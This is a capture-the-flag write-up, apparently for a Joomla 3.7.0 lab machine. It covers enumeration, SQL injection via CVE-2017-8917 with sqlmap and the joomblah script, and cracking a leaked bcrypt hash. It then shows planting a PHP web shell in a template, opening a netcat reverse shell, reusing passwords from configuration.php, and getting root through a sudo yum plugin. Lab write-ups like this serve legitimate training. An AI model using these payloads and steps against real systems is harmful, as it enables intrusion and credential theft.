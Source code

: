 # connect
```bash
export IP=10.10.17.52
```

# First of all
Bsic enumeration
```bash
mkdir nmap

nmap -sC -sV -oN nmap/initial $IP
```

```bash
mkdir gobuster

gobuster dir -u $IP -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/initial
```

# Joomla

version `3.7.0`

## Vuln
CVE : - CVE-2017-8917


## testing vuln
```bash
sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
### SQLmap did not worked for me

# joomblah
Found script joomblah in [ XiphosResearch /
exploits ](https://github.com/XiphosResearch/exploits) on github

```bash
python2 /opt/exploits/Joomblah/joomblah.py http://$IP
```

### It worked!
pwd hash for `jonah`
`$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

```bash
echo "$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm" > jonah.pwd
```

## JohnTheReaper
```bash
john --wordlist=/opt/SecLists/Passwords/rockyou.txt jonah.pwd
```

pws: `spiderman123`


## Login
http://10.10.17.52/administrator/

jonah:spiderman123

## create remote connection

Edit template `protostar`
index.php

Add to begining (after comment):

```php
system($_REQUEST['cmd']);
```

# connect
## Start Listener

```bash
nc -nlvp 8888
```

## exec shell
open URL in browser: http://10.10.17.52/?cmd=nc 10.8.3.38 8888 -e /bin/bash

* ! change nc <IP> to correct your machines IP addres.


## spawn sh after connection
```bahs
python -c 'import pty; pty.spawn("/bin/sh")'
```

# PrivEsc (to user)

```bash
ls -la home
```
Found user  `jjameson`

```bash
cat configuration.php
```
There is bunch of config options. There is couple of passwords varitnta.

Let's try to connect to ssh with them.

```bash
ssh jjameson@$IP
```
`$secret` - not it
`$password` - is matched! (nv5uz9r3ZEDzVjNu)

## Flag 1
```bash
cat user.txt
```


# PrivEsc (to root)
```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
sudo -l
```

Can run `yum` as sudo without password.

https://gtfobins.github.io/gtfobins/yum/


```bash
TF=$(mktemp -d)




cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF



sudo yum -c $TF/x --enableplugin=y
```

## I'm root!

## Flag 2
```bash
cat /root/root.txt
```
